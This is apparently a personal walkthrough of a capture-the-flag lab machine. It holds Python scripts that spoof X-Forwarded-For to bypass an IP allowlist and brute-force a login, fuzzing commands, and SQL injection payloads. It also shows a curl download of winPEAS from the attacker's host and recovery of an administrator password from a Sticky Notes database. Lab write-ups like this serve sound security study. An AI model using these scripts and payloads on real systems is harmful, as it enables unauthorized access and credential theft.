









# target IP 192.168.80.200


```py
import requests

url = "http://192.168.80.200/login.php"

for i in range(256):
    ip = f"10.10.10.{i}"
    headers = {"X-Forwarded-For": ip}
    response = requests.get(url=url, headers=headers)
    # 실제 나오는 응답 확인
    if "Your IP is not allowed" not in response.text:
        print(f"[-] {ip}, status: {response.status_code}")
        # 응답 본문 일부 출력
        print(response.text[:300])
    else:
        print(f"[+] {ip}, status: {response.status_code}")
        print(response.text[:300])

```


???(kali?kali)-[~]
??$ sudo python3 requests_3.py  
[+] Found working IP: 10.10.10.0

```py
import requests

url = "http://192.168.80.200/login.php"

for i in range(256):
    ip = f"10.10.10.{i}"
    headers = {"X-Forwarded-For": ip}
    response = requests.get(url=url, headers=headers)

    # 에러 메시지가 포함되어 있는지 확인
    if "not allowed" not in response.text:
        print(f"[+] Found working IP: {ip}")
        print(response.text)
        break
    else:
        print(f"[-] Blocked: {ip}", end="\r")

```


```html
<!DOCTYPE html>
<html>
  <head>
    <meta name="viewport" content="width=device-width, initial-scale=1" />
  </head>
  <body>
    <h2>Robust Employee Manager</h2>

    <form id="login-form" method="post" target="_self">
      <div class="imgcontainer">
        
      </div>
      <div class="container">
        <label for="uname"><b>Username</b></label>
        <input type="text" placeholder="Enter Username" name="user" required />

        <label for="psw"><br /><b>Password</b></label>
        <input
          type="password"
          placeholder="Enter Password"
          name="password"
          required
        />

        <br /><button type="submit">Login</button>
      </div>
    </form>
  </body>
</html>
```

# burpsuite proxy header setting


# Bruteforce with X-Forwarded-For


```py
# python3 bruteforce_x_forwarded_for.py --url http://192.168.80.200/login.php --xff 10.10.10.0 --usernames "usernames.txt" --passwords "passwords.txt"
import argparse

import requests


def load_lines(path):
    with open(path, "r", encoding="utf-8") as f:
        return [line.strip() for line in f if line.strip()]


def brute_force(url, xff_ip, username_file, password_file, timeout=5):
    headers = {
        "X-Forwarded-For": xff_ip,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebkit/537.36 (KHTML, like Gecko)",
    }

    try:
        usernames = load_lines(username_file)
        passwords = load_lines(password_file)
    except FileNotFoundError as e:
        print(f"not found file {e.filename}")
        return

    total = len(usernames) * len(passwords)
    done = 0

    print(f"[+] loaded {len(usernames)}/{len(passwords)}")
    print(f"[+] total combinations: {total}")
    print("[+] starting bruteforce")

    for user in usernames:
        for pwd in passwords:
            data = {"user": user, "password": pwd}

            try:
                response = requests.post(
                    url=url, headers=headers, data=data, timeout=timeout
                )

                # print(f"code: {response.status_code}")
                if (response.status_code) == 200:
                    # print(f"found {user}/{pwd}")
                    # print(f"len content:{len(response.text)}")
                    print("200")
                if len(response.text) != 1770:
                    print(f"not 1770: {user}/{pwd}")
                    return
            except requests.exceptions.RequestException as e:
                print(f"error: {e}")
            finally:
                # 현재 진행도를 "완료/전체" 형식으로 표시
                done += 1
                pct = (done / total) * 100 if total else 0
                print(
                    f"\r[-] progress: {done}/{total} ({pct:.1f}%)", end="", flush=True
                )

    print(f"\n[-] bruteforce finished")


def parse_args():
    parser = argparse.ArgumentParser(description="X-Forwarded-for")

    parser.add_argument("-u", "--url", default="http://127.0.0.1/login.php")

    parser.add_argument(
        "-x", "--xff", default="10.10.10.10", help="X-Forwarded-For 에 넣을 IP"
    )

    parser.add_argument(
        "-U", "--usernames", default="usernames.txt", help="user file path"
    )

    parser.add_argument(
        "-P", "--passwords", default="password.txt", help="password file path"
    )

    parser.add_argument("-t", "--timeout", type=int, default=5, help="timeout")

    return parser.parse_args()


def main():
    args = parse_args()
    brute_force(args.url, args.xff, args.usernames, args.passwords, args.timeout)


if __name__ == "__main__":
    main()

```

> python3 bruteforce_x_forwarded_for.py --url http://192.168.80.200/login.php --xff 10.10.10.0 --usernames "/usr/share/seclists/Usernames/top-usernames-shortlist.txt" --passwords "/usr/share/seclists/Passwords/Common-Credentials/Pwdb_top-10000.txt"

- It shows all 200 status code


- It Shows 1770 lenth
  
- bruteforce -> not found
  

> sudo nmap 192.168.80.200 -Pn --open -sC -sV -O -oN scan.txt


- -fc -> exclude

# subdomain not found

> ffuf -u http://192.168.80.200 -H "Host:FUZZ.192.168.80.200" -H "X-Forwarded-For: 10.10.10.0" -w /usr/share/seclists/Discovery/DNS/namelist.txt -fc 404 -t 50 > result_ffuf.txt


# found -> ip, IP, login, Login, LOGIN, home, Home, index, Index.php

> ffuf -u http://192.168.80.200/FUZZ.php -H "X-Forwarded-For: 10.10.10.0" -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -fc 404 -t 50


# found -> login, nul.php

> ffuf -u http://192.168.80.200/FUZZ.php -H "X-Forwarded-For: 10.10.10.0" -w /usr/share/wordlists/wfuzz/general/big.txt -fc 404,302 -t 50


# found -> home, index.php

- --sc 302 -> look only 302

> wfuzz -H "X-Forwarded-For: 10.10.10.0" --sc 302 -u http://192.168.80.200/FUZZ.php -w /usr/share/wordlists/wfuzz/general/big.txt


# 192.168.80.200/home.php

# turn on intercept server to client requests


# remove location in response header


# arrived at 192.168.80.200/home.php


- 1 Desireef Joubert 2007-04-01
  2 Blythe Weatherall 2007-05-10
  3 Felisha Bookman 2006-03-12
  4 Natacha Pua 2007-11-24
  5 Chante Fenske 2007-12-28

# set response Location: login.php -> "" in burpsuite


- Id First name Last name Birth date Actions
  6 Amado Grimaldi 2007-06-18
  7 Valery Files 2007-03-08
  8 Taryn Carbone 2007-08-01
  9 Julissa Spengler 2007-01-31
  10 Brain Spagnuolo 2007-09-23

# try SQLI PoC

> ' ORDER BY 1-- -

## check column count -> 4

> curl -X GET "http://192.168.80.200/home.php?action=search&first_name=%27+UNION+select+%2A+from+employees%27&last_name=lastname" -H "X-Forwarded-For: 10.10.10.0" -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"

> http://192.168.80.200/home.php?action=search&first_name=%27+OR+1%3D1--+-&last_name=
> 

> http://192.168.80.200/home.php?action=search&first_name=%27+ORDER+BY+5--+-&last_name=
> 
> 
> 

> ' UNION select * from employees
> http://192.168.80.200/home.php?action=search&first_name=%27+UNION+select+*+from+employees%27&last_name=lastname
> 

# This one is weirdly not a data?? what is this?

> 

> ssh Jeff@192.168.80.200



# local.txt

> type local.txt


> whoami /priv


# It doesn't not include vulnerabilities

Privilege Name Description State
============================= ==================================== =======
SeShutdownPrivilege Shut down the system Enabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeUndockPrivilege Remove computer from docking station Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
SeTimeZonePrivilege Change the time zone Enabled

# install winPEAS

> apt install peass
> 

# moving winPEASany.exe

> curl http://192.168.49.80/winPEASany.exe -o winPEASany.exe
> 

# execute winPEASEany.exe -> found Administrator

> winPEASany.exe


- Display information about local users (T1087.001)
  Computer Name : ROBUST
  User Name : Administrator
  User Id : 500
  Is Enabled : True
  User Type : Administrator
  Comment : Built-in account for administering the computer/domain
  Last Logon : 10/28/2026 12:43:36 AM
  Logons Count : 49
  Password Last Set : 3/21/2022 10:11:35 PM



# fail password

> runas /usr:Administrator cmd
> 

# switch powershell



> type plum.sqlite | findstr /i "Credentials"


> PS C:\Users\Jeff\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState> type plum
> .sqlite | findstr /i "Admin"



MySupersecurePassword2112



C:\Users\Administrator



# ssh Administrator@192.168.80.200




